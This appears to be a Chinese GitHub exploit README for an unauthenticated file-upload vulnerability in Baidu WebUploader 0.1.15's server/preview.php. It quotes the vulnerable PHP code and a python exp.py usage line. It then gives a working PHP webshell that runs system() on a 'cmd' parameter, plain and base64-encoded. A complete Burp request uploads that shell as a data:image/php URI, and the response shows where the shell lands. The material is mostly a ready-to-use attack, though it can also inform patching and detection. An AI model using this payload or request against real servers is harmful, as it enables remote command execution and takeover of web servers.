




# webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。

#### server/preview.php
```
if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }
```
## 0x00 python usage
`python exp.py http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`



#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`

#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`





### 参考链接

https://github.com/teambition/webuploader/releases

https://www.cnvd.org.cn/flaw/show/CNVD-2018-26054

payload form 圈子
